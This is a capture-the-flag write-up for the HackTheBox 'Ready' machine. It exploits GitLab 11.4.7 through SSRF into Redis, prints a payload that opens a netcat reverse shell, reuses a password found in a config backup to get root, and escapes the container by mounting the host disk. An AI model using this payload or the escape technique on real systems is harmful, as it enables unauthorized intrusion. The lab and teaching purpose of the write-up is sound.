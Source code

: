 ```yaml
---
title: Ready Hackthebox Writeup
date: 2020-12-17 09:00:00 +0800
categories: [Hackthebox, Active]
tags: []     # TAG names should always be lowercase
image: /assets/img/ready-hackthebox/ready-pic.jpg
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Ready
IP | 10.10.10.220
Points | 30
Os | Linux
Difficult | Medium
Creator | [bertolis](https://app.hackthebox.eu/users/27897)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Logging in `Port 5080`, which is a `gitlab` signup/signin page.
* Checking the gitlab version, which is `11.4.7`
* Looking for vulnerabilities for that version, found `SSRF - redis - RCE` in gitlab 11.4.7.
* Exploiting the `vulnerability` and getting the `reverse shell`.
* For `Privilege escalation`, found a password file and logged in as `root` in the container.
* **Mounting** the drives present in `/dev` of the container, to get the `Root Flag`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/ready-hackthebox/nmap-automator-2.png)

I accessed port `5080` which shows a gitlab login and signup page.

___
![](/assets/img/ready-hackthebox/accessing-port-5080-3.png)

Along with that I also checked the `/robots.txt`.

___
![](/assets/img/ready-hackthebox/accessing-robots-txt-4.png)

There are a lot of directories but let's first `signup` and then `login`.

___
![](/assets/img/ready-hackthebox/registering-5.png)

The following page is displayed after logging in

___
![](/assets/img/ready-hackthebox/signed-in-6.png)

In such cases, first thing I do is to check the `version` of **Gitlab**. After checking the `help` option in menu, I got this

___
![](/assets/img/ready-hackthebox/help-section-version-7.png)

I googled a bit and got to know that `Gitlab` version `11.4.7` is vulnerable to `RCE via SSRF`.

I found a [`Git Repository`](https://github.com/jas502n/gitlab-SSRF-redis-RCE) and [`Live Overflow`](https://www.youtube.com/watch?v=LrLJuyAdoAg) also explained it in one of his videos.

Now creating a new `Project` in Gitlab by importing it via `git Repo byURL`.

___
![](/assets/img/ready-hackthebox/import-project-by-git-URL-12.png)

Now before pressing the `save` button, setting up proxy and turn on the interceptor on `Burp`.

After `Intercepting` the request, let's replace `import_url` parameter by the following payload:

```
{
 git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash IP PORT\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
 exec
/ssrf.git
}
```
Make sure to check the [POC](https://github.com/jas502n/gitlab-SSRF-redis-RCE) for `RCE via SSRF`, I got the above payload after making some changes. (*Make sure you check the gaps specified in the POC, or else the playload won't work **It didn't work in my case** .*)

___
![](/assets/img/ready-hackthebox/final-req-16.png)

After listening on port 1234, I got a `Reverse shell` as `git`, converted it to an [interactive shell](https://netsec.ws/?p=337)

___
![](/assets/img/ready-hackthebox/tty-shell-19.png)

Got `User Flag`.

___
![](/assets/img/ready-hackthebox/got-user-txt-20.png)

For `Privilege Escalation` I started with manual enumeration and got a `backup folder` in `/opt` directory.
It contained 3 files i.e. 
1. gitlab-secrets.json
2. gitlab.rb
3. docker-compose.yml

After having a look at each of these files, I found that `gitlab.rb` contained some `passwords`.

___
![](/assets/img/ready-hackthebox/few-passwords-23.png)

Simultaneously trying each password, `wW59U!ZKMbG9+*#h` one worked for **sudo su**.

___
![](/assets/img/ready-hackthebox/became-root-but-not-root-text-24.png)

After becoming root, I tried finding out the `root.txt` but there wasn't any because we are in a **container** as *root*.

___
![](/assets/img/ready-hackthebox/no-root-text.png)

After reading this blog on [Unprivileged container builds](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/), I tried the `new mount` technique, but before proceeding further I cheked which drives are present in `/dev` directory with the name of `sda`.

___
![](/assets/img/ready-hackthebox/dev-sda-command-25.png)

There are 4 sda disks present, with the following names:
1. sda
2. sda1
3. sda2
4. sda3

I tried mounting all of them but only `sda2` worked.

___
![](/assets/img/ready-hackthebox/only-sda-test3-worked-27.png)

Entering the `test-sda2` folder and accessing the `root` directory, I got the `Root Flag`.

___
![](/assets/img/ready-hackthebox/got-root-flag-28.png)

___
















